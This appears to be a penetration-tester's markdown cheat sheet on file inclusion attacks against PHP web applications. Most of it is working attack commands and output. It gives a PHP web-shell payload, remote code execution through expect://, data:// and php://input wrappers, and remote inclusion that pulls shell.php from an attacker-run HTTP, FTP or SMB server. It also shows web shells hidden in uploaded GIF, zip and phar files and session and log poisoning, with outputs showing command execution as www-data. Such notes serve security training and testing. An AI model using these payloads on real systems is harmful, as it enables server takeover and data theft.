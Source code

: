 ## file Inclusion methods and bypass

- [File Inclusion Methods and bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

## files to include

- [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
-  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- web directory conf files like (conf.php , .env files)

## Remote Code Execution

### PHP wrappers 
  

#### Wrapper expect://   `require Expect extension`
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper data://   `require allow_url_include on`
```bash
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

#### Wrapper input://        `require allow_url_include on`
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper php://filter
[synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)



### Remote File Inclusion  `require the allow_url_include`

### HTTP

```bash
$ sudo python3 -m http.server <LISTENING_PORT>
=> Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### FTP 

```bash
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMP  `do not need the allow_url_include`

```bash
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note** : this technique is **more likely to work if we were on the same network**, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


### Chain LFI & File Upload

#### Image Upload
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Zip Upload (using  Wrappers  zlib:// bzip2://  zip://)
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Log Poisoning

#### PHP Session Poisoning

- if php site using language paramter language
```url
http://<SERVER_IP>:<PORT>/index.php?language=en.php
```
- session is stored in  `/var/lib/php/sessions/sess_SessionValue`
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd'

=> selected_language|s:6:"en.php";preference|s:7:"English";
```
- check if you can control any value in the session 
- assume selected_language is contolable
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=<?php system($_GET["cmd"]);?>'
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


#### Server Log Poisoning

##### inject these then include log files

##### User-Agent Header
- `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log`
- `/proc/self/environ`  or `/proc/self/fd/N`

##### username to PHP code
- ftp `/var/log/vsftpd.log`
- ssh  `/var/log/sshd.log`

##### email containing PHP code
- mail services  `/var/log/mail`


## File Inclusion Functions

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| ----- | :-----: | :-----: | :-----: |
| **PHP** |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodeJS** |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NET** | |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` | ✅ | ✅ | ✅ |









